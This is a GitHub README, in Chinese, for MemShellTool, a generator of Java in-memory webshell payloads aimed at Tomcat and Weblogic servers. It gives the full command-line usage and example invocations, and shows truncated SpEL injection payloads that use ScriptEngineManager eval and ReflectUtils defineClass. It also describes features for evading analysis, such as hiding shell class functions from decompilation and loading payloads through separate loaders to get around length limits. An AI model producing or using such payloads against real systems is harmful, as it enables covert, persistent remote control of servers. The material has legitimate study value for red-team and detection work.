 # MemShellTool

内存马payload生成工具

# 0x00

- 一键生成内存马payload
- 支持多种类型webshell、代理工具
- 多种编码方式
- 支持生成agent马
- 应对特殊环境下的payload长度限制，支持通过加载器分离加载
- 隐藏内存马class中的函数，对抗人工反编译分析
- 添加gui和反编译功能，可反编译显示注入器和webshell类
- 完善中......

# 0x01

gui：
```
java -jar MemShellTool.jar -gui
```

命令行：
```
usage: java -jar MemShellTool.jar [-ct <arg>] [-d] [-h] [-hn <arg>] [-icn
       <arg>] [-it <arg>] [-k <arg>] [-op <arg>] [-ot <arg>] [-p <arg>]
       [-slt <arg>] [-sname <arg>] [-st <arg>] [-u <arg>]
 -ct,--containerType <arg>       ContainerType: Tomcat,Weblogic...
 -d,--default                    default option
 -h,--help                       print this message
 -hn,--headerName <arg>          access shell with header
 -icn,--injectClassName <arg>    loader name
 -it,--injectType <arg>          injectType: Single,Loader,ShellCode
 -k,--key <arg>                  shell key: GodZilla...need
 -op,--outPath <arg>             output path
 -ot,--outTpye <arg>             output type
 -p,--password <arg>             shell password
 -slt,--shellType <arg>          ServerType: CMD,Behinder...
 -sname,--shellClassName <arg>   shellClassName: xxxFilter
 -st,--serverType <arg>          ServerType: Filter,Valve,Servlet...
 -u,--shellPath <arg>            shell url: /shell

-------------------------

Available [InjectType]:
[SINGLE, LOADER, SHELLCODE]

-------------------------

Available [Container]:
[WEBLOGIC, TOMCAT]

-------------------------

Container [WEBLOGIC] Available ServerType:
[FILTER]
Container [TOMCAT] Available ServerType:
[FILTER, FILTER, SERVLET, VALVE, WEBSOCKET]

-------------------------

Server Type [FILTER] Available ShellType:
[BEHINDER, CMD, SUO5, GODZILLA]
Server Type [FILTER] Available ShellType:
[BEHINDER, CMD, SUO5, GODZILLA]
Server Type [SERVLET] Available ShellType:
[BEHINDER, CMD, GODZILLA]
Server Type [VALVE] Available ShellType:
[BEHINDER, CMD, GODZILLA]
Server Type [WEBSOCKET] Available ShellType:
[CMD]

-------------------------

Available OutTpye:
[RAW, BASE64, BCEL, JAVASCRIPT, SPEL, EL]
```

example：
spel表达式 tomcat filter 哥斯拉内存马
```
java -jar MemShellTool-v1.0.jar -d -ct TOMCAT -sname Helper -st FILTER -u /404 -slt BEHINDER -ot SPEL

spel with JsEngine:
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("js").eval('var co......
spel with Spring defineClass:
T(org.springframework.cglib.core.ReflectUtils).defineClass("inje......
     key             value
     -------         -------
     InjectType      SINGLE
     ServerType      FILTER
     ContainerType   TOMCAT
     ShellType       BEHINDER
     ShellClassName  Helper
     ShellPath       /404
     Password        1a1dc91c907325c6
     Key             key
     HeaderName      Accept-Header
     InjectClassName inject_dc58ad
     OutPath         ./
     OutTpye         SPEL
```

SPEL 注入 tomcat websocket内存马
```
java -jar MemShellTool-v1.0.jar -d -ct TOMCAT -sname Helper -st WEBSOCKET -u /ws -slt CMD -ot SPEL
```

注入shell

![img1](img/spel_ws.png)

连接shell

![img2](img/ws_shell.png)

# 0x2

新增fastjson内存马，基于fastjson组件实现内存马功能。

目前支持cmdshell和冰蝎4.0

实现原理参考：https://oh3r.vip/2025/02/05/fastjson%E5%86%85%E5%AD%98%E9%A9%AC/

![img3](img/fastjsonshell.png)

# 0x3
反编译显示注入器和webshell类

![img4](img/decompile.png)
